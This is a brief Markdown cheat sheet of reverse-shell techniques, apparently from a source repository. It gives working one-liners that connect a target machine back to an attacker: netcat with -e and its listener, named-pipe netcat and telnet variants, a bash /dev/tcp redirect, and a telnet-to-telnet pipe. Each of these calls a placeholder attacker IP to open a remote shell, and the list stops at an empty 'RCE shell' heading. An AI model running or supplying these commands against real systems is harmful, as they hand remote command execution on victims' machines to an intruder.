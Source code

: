 

# Reverse Shell

## Netcat

Target machine connect back to the attack machine

```
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```
nc -n -vv -l -p [port]
```

## netcat with GAPING_SECURITY_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

##  netcat without netcat

It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system.

### Target Machine
```
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp

### Target Machine
```
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## telnet-to-telnet
This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

```
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```

## RCE shell

